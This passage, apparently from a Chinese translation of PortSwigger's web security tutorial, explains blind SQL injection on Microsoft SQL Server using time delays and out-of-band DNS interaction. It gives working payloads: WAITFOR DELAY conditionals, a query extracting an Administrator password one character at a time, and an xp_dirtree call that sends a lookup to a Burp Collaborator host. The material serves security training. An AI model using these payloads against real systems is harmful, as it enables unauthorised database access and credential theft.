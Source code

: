 触发时间延迟的技术与所使用的数据库类型高度相关。在 Microsoft SQL Server 中，可以使用以下类似的输入来测试条件并根据表达式是否为真来触发延迟：

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

其中第一个输入将不会触发延时，因为条件 `1=2` 为假，第二个输入将触发10秒的延时，因为条件 `1=1` 为真。

使用这项技术，我们可以用已经描述过的方式来检索数据，系统地一次测试一个字符：

```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

> **注意**
>
> 在SQL查询中触发时间延迟的方法有很多种，不同的技术适用于不同类型的数据库。更多细节，请参见 [SQL 注入备忘单](https://portswigger.net/web-security/sql-injection/cheat-sheet)。

{% hint style="warning" %}
实验：[带时间延迟的 SQL 盲注](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)
{% endhint %}

{% hint style="warning" %}
实验：[带时间延迟和信息检索的 SQL 盲注](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)
{% endhint %}

### 使用带外技术（OAST）利用SQL盲注

现在，假设应用程序执行相同的 SQL 查询，但是采用异步方式处理。应用程序继续使用原始线程处理用户请求，并使用另一个线程执行使用追踪 cookie 的 SQL 查询。该查询依然容易受到 SQL 注入的攻击，但是到目前为止所介绍的技术都不起作用：应用程序的响应并不取决于查询是否返回任何数据，也不取决于数据库是否发生错误，更不取决于执行查询所花费的时间。

在这种情况下，通常可以通过触发带外网络交互到你控制的系统来利用 SQL 注入漏洞。如前所述，可以根据注入的条件有条件地触发这些操作，一次推断一位信息。但是更强大的是，数据可以在网络交互本身中直接泄漏。

可以使用多种网络协议来实现此目的，但最有效的通常是 DNS。这是因为很多生产网络都允许 DNS 查询自由发出，因为它们对于生产系统的正常运行至关重要。

使用带外技术最简单、最可靠的方法是使用 [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)。这是一台提供各种网络服务（包括 DNS）自定义实现的服务器，并允许你检测由于将单个 payload 发送给易受攻击的应用程序而导致的网络交互何时发生。 [Burp Suite Professional](https://portswigger.net/burp/pro) 内置对 Burp Collaborator 的支持，无需进行配置。

触发 DNS 查询的技术与所使用的数据库类型是高度相关。在 Microsoft SQL Server 中，可以使用如下的输入来在指定域上引起 DNS 查找：

```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

这将导致数据库对以下域执行查找：

```sql
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

你可以使用 Burp Suite 的 [Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) 生成一个唯一的子域，并轮询 Collaborator 服务器以确认何时进行任何的 DNS 查找。

{% hint style="warning" %}
实验：[带外交互的 SQL 盲注](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)
{% endhint %}
